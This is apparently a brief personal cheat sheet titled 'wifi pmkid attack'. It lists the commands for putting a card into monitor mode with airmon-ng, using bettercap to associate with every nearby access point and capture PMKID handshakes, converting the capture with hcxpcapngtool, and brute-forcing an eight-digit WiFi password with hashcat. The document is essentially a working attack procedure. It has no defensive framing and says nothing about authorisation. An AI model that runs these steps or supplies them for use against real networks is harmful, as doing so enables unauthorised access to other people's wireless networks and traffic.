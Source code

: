 # wifi pmkid attack
< captured handshakes are located here, "/root/bettercap-wifi-handshakes.pcap" >


> airmon-ng start wlan0

> bettercap -iface eth0

> set wifi.interface wlan0mon

> wifi.recon on

> wifi.show

> wifi.assoc all

once you see that a handshake was captured, leave bettercap running and open a new window

here we will need to convert the pcap file to a format that is readable for hashcat

> hcxpcapngtool -o /home/d0c0b/Desktop/handshakes.pmkid /root/bettercap-wifi-handshakes.pcap

now to decrypt the file to retrieve password

> hashcat -m22000 -a3 -w3 /home/d0c0b/Desktop/handshakes.pmkid '?d?d?d?d?d?d?d?d'

you type "s" to get a status
> s
